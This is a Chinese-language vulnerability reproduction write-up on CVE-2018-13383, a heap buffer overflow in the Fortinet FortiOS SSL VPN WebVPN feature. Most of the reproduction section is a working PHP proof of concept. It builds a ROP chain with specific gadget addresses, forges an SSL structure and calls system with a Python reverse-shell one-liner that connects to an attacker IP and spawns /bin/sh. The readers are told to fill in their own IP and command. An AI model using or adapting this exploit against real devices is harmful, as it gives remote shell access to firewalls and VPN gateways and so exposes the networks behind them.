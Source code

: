 # （CVE-2018-13383）Fortinet FortiOS 缓冲区错误漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2949](https://www.zhihuifly.com/t/topic/2949)

# （CVE-2018-13383）Fortinet FortiOS 缓冲区错误漏洞

## 一、漏洞简介

Fortinet FortiOS是美国飞塔（Fortinet）公司的一套专用于FortiGate网络安全平台上的安全操作系统。该系统为用户提供防火墙、防病毒、IPSec/SSLVPN、Web内容过滤和反垃圾邮件等多种安全功能。 Fortinet FortiOS 6.2.0之前版本中存在堆缓冲区溢出漏洞。该漏洞源于网络系统或产品在内存上执行操作时，未正确验证数据边界，导致向关联的其他内存位置上执行了错误的读写操作。攻击者可利用该漏洞导致缓冲区溢出或堆溢出等。

## 二、漏洞影响

Fortinet Fortios 6.2 Fortinet Fortios 6.0.5

## 三、复现过程

这是WebVPN功能的漏洞。在解析HTML中的JavaScript时，它会尝试使用以下代码将内容复制到缓冲区中：

```
memcpy(buffer, js_buf, js_buf_len); 
```

缓冲区大小固定为`0x2000`，但输入字符串是无限制的。因此，这里存在堆溢出。值得注意的是，此漏洞可以溢出Null字节，这在我们的利用中很有用。
为触发此溢出，我们需要将exploit放到HTTP服务器上，然后以普通用户权限登录SSL VPN代理访问我们的exploit为普通用户。

> 这里我们用PHP编写的PoC放在HTTP服务器上:
> 
> //请自行修改里面的ip以及所需要的执行的命令

```
<?php
function p64($address) {
    $low = $address & 0xffffffff;
    $high = $address >> 32 & 0xffffffff;
    return pack("II", $low, $high);
}
$junk = 0x4141414141414141;
$nop_func = 0x32FC078;

$gadget  = p64($junk);

$gadget .= p64($nop_func - 0x60);

$gadget .= p64($junk);

$gadget .= p64(0x110FA1A); // # start here # pop r13 ; pop r14 ; pop rbp ; ret ;

$gadget .= p64($junk);

$gadget .= p64($junk);

$gadget .= p64(0x110fa15); // push rbx ; or byte [rbx+0x41], bl ; pop rsp ; pop r13 ; pop r14 ; pop rbp ; ret ;

$gadget .= p64(0x1bed1f6); // pop rax ; ret ;

$gadget .= p64(0x58);

$gadget .= p64(0x04410f6); // add rdi, rax ; mov eax, dword [rdi] ; ret  ;

$gadget .= p64(0x1366639); // call system ;

$gadget .= “python -c ‘import socket,sys,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((sys.argv[1],12345));[os.dup2(s.fileno(),x) for x in range(3)];os.system(sys.argv[2]);’ xx.xxx.xx.xx /bin/sh;”; `$p  = str_repeat(‘AAAAAAAA’, 1024+512-4); // offset

$p .= $gadget;

$p .= str_repeat(‘A’, 0x1000 - strlen($gadget));

$p .= $gadget;

?>

<a href=“javascript:void(0);<?=$p;?>”>xxx</a>` 
```

这个PoC可以分为三个部分。

*   1.虚假的SSL structure

`SSL structure`和我们的缓冲区相靠，因此我们可以精确伪造。为了避免崩溃，我们将`method`设置为一个包含空函数指针的位置。此时的参数是 `SSL structure`本身`s`。但是，`method`前面只有8个字节，我们不能简单地调用`system("/bin/sh");`，这对于我们的反向shell来说是不够的。不过由于那个巨大的二进制文件，我们很容易找到ROP小片段。我们发现一个有用的堆栈枢轴:

```
push rbx ; or byte [rbx+0x41], bl ; pop rsp ; pop r13 ; pop r14 ; pop rbp ; ret ; 
```

因此，我们将`handshake_func`设置为这个小片段，将`rsp`移动到`SSL structure`中，进行下一步的ROP攻击。

*   2.ROP链

这里的ROP链很简单。我们稍微向前移动`rdi`，以便有足够的空间执行反向shell命令。

*   3.溢出的字符串

最后，我们连接溢出填充并加以利用。一旦我们溢出了SSL structure，就会得到一个shell。

最终稳定利用还需要多次尝试，因为有时程序会提前崩溃。但无论如何，攻击还是奏效了，只需要1~2分钟，就可以获得一个反向shell。